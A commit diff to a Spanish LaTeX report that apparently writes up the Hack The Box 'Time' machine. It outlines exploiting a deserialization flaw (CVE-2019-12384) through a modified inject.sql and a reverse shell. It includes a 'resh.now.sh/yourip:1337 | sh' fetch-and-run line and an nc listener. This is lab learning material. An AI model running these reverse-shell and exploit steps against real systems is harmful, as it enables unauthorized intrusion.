

Before and after one commit to CLmilo/Informes_HTB, a LaTeX document (informe3/Informe3.tex): part of page 5 of 5 before the commit and two parts of pages 5 and 6 of 7 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
añadiendo avance time

```diff
--- a/informe3/Informe3.tex
+++ b/informe3/Informe3.tex
@@ -115,4 +115,32 @@ Con este código te bota el siguiente error:
 \end{lstlisting}
 
 Entonces el segundo error nos da algo más significativo, buscando en google encontramos algunas vulnerabilidades.
+
+Entre estas la que nos sirve es la que encontramos en este github \href{https://github.com/jas502n/CVE-2019-12384}{https://github.com/jas502n/CVE-2019-12384}
+
 \subsection{Explotación}
+Comenzando con la explotación, esta máquina utiliza un error de deserialización, el cual se explota con un gadget, en este caso lo que se tiene que hacer son los siguientes pasos:
+\begin{enumerate}
+	\item Crear un inject.sql y modificarlo para que ejecute una reverse shell que queramos.
+	\item Crear la reverse shell que puede ser un archivo o escrita directamente.
+	\item Levantar estos archivos con un servidor para que sea accesible desde la máquina víctima.
+	\item Deja escuchando el puerto de la reverse shell.
+	\item escribir el exploit en la página para que se ejecute y nos de acceso.
+\end{enumerate}
+
+Entonces empezamos con los pasos, primero para crear el inject.sql usamos el github que nos da el archivo, solo quedaría modificarlo con la ruta en la que tendríamos la reverse shell
+
+\begin{figure}[H]
+	\center
+	\includegraphics[width=\textwidth]{images/time/injection.png}
+	\caption{script de injection sql modificado}
+\end{figure}
+
+Luego para crear la reverse shell, podemos hacerlo de la forma habitual con monkey pentester, en este caso sabemos que lo va a ejecutar bash porque estamos en un server linux y esta función sql está llamando una shell de sistema, así que podríamos usar la reverse de bash, sin embargo para este caso usaremos un script que te genera varias reverse shell y te usa la más conveniente.
+
+El proceso para generarla es simple, solo te diriges a "https://resh.now.sh/\textbf{yourip}:1337 | sh", es importante este 1337 que sería el puerto que tendríamos que tener en escucha con el nc.
+\begin{figure}[H]
+	\center
+	\includegraphics[width=\textwidth]{images/time/reverse_shell.png}
+	\caption{reverse shell}
+\end{figure}
```
Also changed, not shown: informe3/Informe3.pdf, informe3/images/time/acceso.png (added), informe3/images/time/comando.png (added), informe3/images/time/ejecucion.png (added), informe3/images/time/injection.png (added), informe3/images/time/reverse_shell.png (added), informe3/images/time/server.png (added), informe3/Informe3.tex (30 more changed lines), 6 other files.
